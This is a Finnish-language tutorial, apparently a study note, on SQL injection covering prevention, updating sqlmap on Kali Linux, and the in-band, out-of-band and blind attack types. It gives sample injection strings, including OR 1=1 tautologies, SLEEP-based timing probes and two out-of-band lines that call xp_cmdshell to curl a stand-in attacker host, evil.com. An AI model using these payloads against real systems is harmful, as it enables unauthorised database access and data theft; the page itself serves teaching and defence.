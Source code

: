 # SQL injektio

SQL-injektio (SQL injection) on tietoturvahyökkäys, jossa hyökkääjä voi manipuloida verkkosovelluksen tai tietokannan SQL-kyselyitä. Tämä tapahtuu syöttämällä haitallista SQL-koodia sovellukseen, joka ei ole suojattu asianmukaisesti. SQL-injektio voi mahdollistaa hyökkääjän suorittaa tietokannan komentoja, kuten lukemaan, muokkaamaan tai poistamaan tietoja, jopa hankkimaan järjestelmänvalvojan oikeudet.

SQL-injektiohyökkäyksen perusidea on hyödyntää puutteellisesti suodatettuja syötteitä (kuten käyttäjän syöttämiä lomaketietoja tai URL-parametreja) ja liittää niihin haitallista SQL-koodia. Jos sovellus ei tarkista tai puhdista syötteitä kunnolla, hyökkääjä voi lisätä oman SQL-lausekkeen alkuperäiseen kyselyyn, joka suoritetaan tietokannassa.


Oletetaan, että sinulla on verkkosivusto/palvelin/tietokanta, jossa käyttäjä voi kirjautua sisään syöttämällä käyttäjätunnuksen ja salasanan. Jos kirjautumislomakkeen tiedot liitetään suoraan SQL-kyselyyn ilman oikeaa suodatusta, hyökkääjä voi syöttää seuraavanlaisen syötteen: `root` ja ei ole salasanaa, tai oletuksena käyttäjätunnus ja salasana OVAT `root` tai joko `admin`.


## ehkäiseminen ja turvallisuuden kannalta

SQL-injektion välttäminen on olennainen osa verkkosovellusten ja tietokantojen suojaamista. 


- Tietokannan suojaus: Tietokannassa, kuten MariaDB/MySQL:ssä, tulisi käyttää vahvoja ja pitkiä salasanoja, jotka estävät hakkereita pääsemästä käsiksi järjestelmään. Vahva salasana sisältää suuria ja pieniä kirjaimia, numeroita ja erikoismerkkejä.
  
- Ylläpitäjien hallinta: Mikäli tietokannassa on useita ylläpitäjiä, on suositeltavaa luoda vähintään kaksi tai useampi ylläpitäjän tili, jotka jakavat vastuuta ja rajoittavat yksittäisen käyttäjän pääsyä. Näin varmistetaan, että kaikki oikeudet eivät ole yhden henkilön käsissä.

- Syötteiden validointi: Käyttäjän syötteitä ei koskaan tulisi liittää suoraan SQL-kyselyihin, sillä se voi mahdollistaa SQL-injektion. Sen sijaan tulisi käyttää valmisteltuja kyselyitä (prepared statements), joissa käyttäjän syöte käsitellään turvallisesti erillään SQL-komennosta.

- Päivitykset ja haavoittuvuuksien hallinta: Sovellukset ja käytettävät ohjelmistot, kuten tietokannan hallintajärjestelmät (esim. MySQL, PostgreSQL), tulisi päivittää säännöllisesti, jotta tunnetut haavoittuvuudet saadaan korjattua. Tällöin voidaan estää hyökkäyksiä, jotka voisivat käyttää hyväkseen ohjelmistojen vanhentuneita versioita.

<hr>

## kali linux ja sqlmap

Sekä pieni huomiona, tätä sqlmap - komentoa jos toistaa useammin niin jossakin tilanteessa tulee pieni katkosta eli vähä kuin aikaleima. Jossain tilantteessa tällainen saattaa tulla, jossa tämä tarkoittaa sqlmap-työkalu versio on vanhentunut. Voi vaikuttaa, että sqlmap ei toimi oikein, ja ei ehkä pysty käyttämään uusia ominaisuuksia tai korjauksia, joita on lisätty työkaluun alunperin verrattuna uudenmpiin versioihin. 

```
[*] starting @ 18:39:30 /2024-12-08/

[18:39:30] [INFO] resuming back-end DBMS 'microsoft sql server' 
[18:39:55] [CRITICAL] host 'testasp.vulnweb.com' does not exist
[18:39:55] [WARNING] your sqlmap version is outdated

[*] ending @ 18:39:55 /2024-12-08/
```

Vanha sqlmap-versio ei välttämättä tue uusimpia tekniikoita, joita tarvitaan nykyään verkkosivustojen SQL-injektiohaavoittuvuuksien löytämiseen, etenkin jos verkkosivustolla on lisäsuojauksia. Tämä voi estää sinua suorittamasta SQL-injektiohyökkäystä onnistuneesti. Lisäksi, jos tietokannan rakenteessa on muutoksia tai uusia tietoturvatoimenpiteitä, vanha versio saattaa olla kykenemätön käsittelemään niitä.

Päivittäminen menee komennolla `sqlmap --update` ja jos ei tiedä mitä komentoa ja miten päivittää tarkista apua ensin `sqlmap -h` ja tämä on kali linux alla tmä työkalu, niin on hyvä tarvittaessa päivittää oman kali linux ohjelman `sudo apt update` tämä päivittää versiot, mutta jos päivittää `sudo apt upgrade` niin se syö muisti ja vie resurssien muistia. 

<hr>

# SQL Injection kategoriat:

Kolmen typpistä injektio ovat; 

- In-band SQL injection; Hyökkääjä suorittaa SQL-kyselyt samalla yhteyden kautta ja saa vastauksia heti. Toisin sanoen, kaikki tiedot saadaan samassa "kanavassa" hyökkäyksen aikana. Tässä kategorian sisällä voidaan puhua esimerkiksi error-based SQL injection (virheilmoitusten kautta) tai union-based SQL injection (tietojen yhdistämisen kautta). Hyökkääjä saa välittömästi palautetta kyselyjen tuloksista ja voi käyttää tätä tietoa hyväkseen. Esim. `' OR 'a'='a`
  (lyhyesti sanottuna;  Hyökkääjä saa suoraa palautetta samassa yhteydessä kyselyistä.)

- Out-of-band SQL injection; hyökkääjä ei saa palautetta samassa yhteydessä kuin kyselyä suoritetaan. Sen sijaan tietoja voidaan siirtää jollain muulla tavalla, esimerkiksi erillisten kanavien (kuten verkkopyynnöt) kautta. Tämä voi tapahtua esimerkiksi, jos SQL-kysely suorittaa toimenpiteitä, jotka laukaisevat ulkoisen tiedonsiirron (esim. tietojen lähettäminen hyökkääjän palvelimelle). Out-of-band-injektiot eivät ole yhtä yleisiä, koska ne edellyttävät, että tietokannan on tuettava ulkoisten yhteyksien tekemistä, mutta ne voivat olla tehokkaita. Esim. `'; EXEC xp_cmdshell('curl http://evil.com/attack') --
   (lyhyesti sanottuna;  Hyökkääjä saa tietoa muilla kanavilla, kuten verkkopyynnöillä.)

- blind / inferential SQL injection; Blind SQL-injektiossa ei saada suoraa palautetta SQL-kyselyistä, mutta hyökkääjä voi päätellä tietoja epäsuorasti, esimerkiksi kokeilemalla erilaisia ehtoja ja katsomalla, miten sivusto reagoi. Tässä ei ole virheilmoituksia eikä suoraa tietoa, mutta silti hyökkääjä voi arvaamalla selvittää tietokannan rakennetta ja tietoja. Blind SQL Injection voidaan jakaa edelleen kahteen tyyppiin:
        (lyhyesti sanottuna; Hyökkääjä ei saa suoraa palautetta, vaan päättelee tietoja epäsuorasti käyttäen sivuston käyttäytymistä (boolean- tai time-based).)
  
 -  boolean-based Blind SQL injection: Hyökkääjä yrittää muuttaa SQL-kyselyä siten, että kyselyn tulos on joko "totta" tai "epätotta", ja seuraamalla käyttäjän reaktiota (esim. sivun lataus tai virhe) voi päätellä, onko tietty ehto täsmällinen.
 -  Time-based Blind SQL Injection: Tässä hyökkääjä pakottaa tietokannan odottamaan tietyn ajan ennen vastauksen lähettämistä, ja aikaa mittaamalla voidaan päätellä, onko ehto ollut totta vai epätotta.

Esim. `' AND 1=1 --` - sivu latautuu normaalisti tarkoittaa ehto 1=1. Mutta jos esim. `' AND 1=2 --` ettei sivu lataudu. Näin hän voi päätellä, että ehto 1=2 on epätosi.

<hr>

Muutamia esimerkkejä koskien URL-pohjaisen hyökkäystä, ja vastaavasti miten hyökkäys voi rakentua URL:in kautta. 

- ESIM: URL:ssa voi olla parametrinä esimerkiksi käyttäjätunnus ja salasana, ja hyökkääjä voi yrittää manipuloida niitä.
URL-pohjaisesta in-band SQL -injektiosta; 
<br> `http://example.com/login.php?username=admin&password=' OR '1'='1` 

Tässä URL:ssa hyökkääjä on lisännyt syötteen, joka muuttaa SQL-kyselyn käyttäen `OR '1'='1` -ehtoa. Tämä voisi johtaa siihen, että SQL-kysely palauttaa kaikki käyttäjät, koska ehto `1=1` on aina totta. Jos sovellus ei ole suojattu kunnolla, tämä voi paljastaa käyttäjätietoja tai jopa antaa pääsyn sovellukseen ilman oikeaa salasanaa.


- ESIM: tässä hyökkäyksessä hyökkääjä ei saa suoraa palautetta samassa yhteydessä, mutta SQL-kysely voi laukaista ulkoisen tiedonsiirron hyökkääjän palvelimelle. Tämä voi tapahtua esimerkiksi komentojen ajamisella tietokannan kautta, joka lähettää pyynnön ulkoiselle palvelimelle.
URL-pohjaisesta out-of-band SQL -injektiosta:
<br> `http://example.com/product.php?id=1; EXEC xp_cmdshell('curl http://evil.com/data') --`

Tässä URL:ssa hyökkääjä on lisännyt SQL-koodia, joka käyttää `EXEC xp_cmdshell`-komentoa, joka mahdollistaa komentojen suorittamisen tietokannan palvelimella. Tässä esimerkissä suoritetaan curl-komento, joka lähettää tiedot hyökkääjän palvelimelle. Tämä on tyypillinen tapa, jolla out-of-band SQL-injektio voi toimia — hyökkääjä ei saa suoraa vastausta kyselystä, mutta tietoja siirretään ulkopuoliseen järjestelmään.


- ESIM: Tässä hyökkäyksessä hyökkääjä ei saa suoraa palautetta, mutta hän voi tehdä kokeiluja ja seurata sivun käyttäytymistä, jotta voi päätellä, onko tietty ehto totta vai epätotta. Yksi yleisimmistä tavoista on käyttää boolean-based tai time-based -tekniikoita.
URL-pohjaisesta blind SQL -injektiosta (boolean-based):
<br> `http://example.com/product.php?id=1' AND 1=1 --` 

Tässä URL:ssa hyökkääjä lisää ehtoja SQL-kyselyyn. Tämä kysely palauttaa oikean sivun, koska 1=1 on aina totta. Hyökkääjä voi kokeilla myös seuraavaa:

<br> `http://example.com/product.php?id=1' AND 1=2 --` 

Tässä kysely palauttaa todennäköisesti tyhjän sivun, koska 1=2 on epätotta. Tämä antaa hyökkääjälle vihjeen siitä, että hän voi manipuloida tietokannan kyselyjä ja päätellä, onko jokin ehto totta vai epätotta.

URL-pohjaisesta blind SQL -injektiosta (time-based):
<br> `http://example.com/product.php?id=1' AND SLEEP(5) --`

Tässä URL:ssa hyökkääjä lisää `SLEEP(5)`-komennon SQL-kyselyyn. Tämä pakottaa tietokannan odottamaan 5 sekuntia ennen kuin se palauttaa tuloksen. Hyökkääjä voi mitata, kuinka kauan sivu kestää latautuessaan. Jos sivu viivästyy, hän tietää, että SQL-kyselyssä oli SLEEP(5)-komento, ja tämä auttaa häntä arvioimaan tietokannan rakennetta ja tietoja.





<hr>
